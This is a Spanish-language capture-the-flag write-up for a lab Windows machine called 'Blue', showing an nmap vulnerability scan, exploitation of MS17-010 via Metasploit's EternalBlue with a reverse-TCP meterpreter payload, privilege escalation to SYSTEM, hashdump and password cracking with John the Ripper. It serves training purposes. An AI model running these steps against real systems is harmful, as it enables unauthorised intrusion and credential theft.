# Blue

Máquina donde aprenderemos a atacar a máquina Windows mediante vulnerabilidades como la ms17_010 y haremos uso de eternalblue y modulos shell_to_meterpreter.

## ESCANEO DE PUERTOS



Realizamos una búsqueda de vulnerabilidades

`nmap -p445,139,135 -sV --script="vuln" 10.129.163.182`



Observamos la siguiente vulnerabilidad ms17-010

## ENUMERACIÓN DE EXPLOIT

Desde metasploit buscaremos esta vulnerabilidad y probaremos cual nos resulta exitosa.



Usamos el primer exploit

y le introducimos los RHOSTS Y LHOST



Tras tener algunos problemas cambiamos los siguientes parametros

`set PAYLOAD windows/x64/meterpreter/reverse_tcp`

`set LPORT 443`

`run`

Teniamos un payload x86 vs x64 de la victima.

Ahora ponemos la sesión en segundo plano con background.

## ESCALADA DE PRIVILEGIOS

Buscamos pasar una shell a meterpreter con el siguiente payload.



Nos pide la sesión que tenemos activa.



Una vez lanzado se nos creará 2 sesiones.



Entramos así en la nueva

Comprobamos que hemos escalado a la autoridad del sistema



Con hashdump veremos los hashes de los usuarios



Guardamos en un hash.txt el hash de Jon y con John the Ripper lo desciframos



Desde meterpreter encontramos la flag1



Posteriormente la flag2 y flag3 la buscaremos usando search:

`search -f flag2.txt`

`search -f flag3.txt`





Ya solo vamos a esas rutas y encontraremos las flags.
